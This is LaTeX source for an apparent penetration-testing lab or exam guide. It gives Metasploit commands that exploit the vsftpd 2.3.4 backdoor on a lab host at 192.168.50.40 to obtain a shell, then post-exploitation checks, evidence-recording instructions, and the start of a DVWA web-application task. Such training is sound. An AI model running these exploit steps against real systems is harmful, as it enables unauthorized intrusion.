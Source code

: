 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{cmdbox}
\begin{cmdverb}
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.50.40
set PAYLOAD cmd/unix/interact
run
\end{cmdverb}
\end{cmdbox}

\begin{cmdbox}
\begin{cmdverb}
whoami
id
hostname
\end{cmdverb}
\end{cmdbox}

\begin{expectbox}
The exploit returns an interactive shell; \texttt{whoami}/\texttt{id} confirm the
effective user on \texttt{192.168.50.40}. Document the full attack path for Task 13 and
keep this session open --- Task 9 escalates privileges from exactly this foothold.
\end{expectbox}

\begin{notebox}
\textbf{VIDEO} --- start recording before opening \texttt{msfconsole}; capture module
selection, exploit execution, and the moment access is confirmed --- do not cut this
clip, it is the strongest evidence in the report. \textbf{SCREENSHOT} ---
\texttt{msfconsole} exploit configuration (show options), the successful shell prompt,
and the \texttt{whoami}/\texttt{id} output.
\end{notebox}

\clearpage

\section{Task 7 --- Web Application Security Assessment (6 marks)}
\textbf{Runs on:} \bruno\ (Kali, PC4) against Rayan's DVWA host
(\texttt{192.168.50.30}). \quad\textbf{Goal:} demonstrate at least 2 OWASP Top 10
vulnerabilities.

\begin{redbox}
Independent of the Metasploitable foothold, Bruno treats the web app as its own attack
surface --- this is deliberate: a real attacker rarely stops after one entry point, and
the exam explicitly scores this as a separate task from Task 6.
\end{redbox}

\begin{steps}
\item Log in to DVWA and set the security level to \textbf{low} under DVWA Security
  (clean teaching demo).
\end{steps}
\end{document}
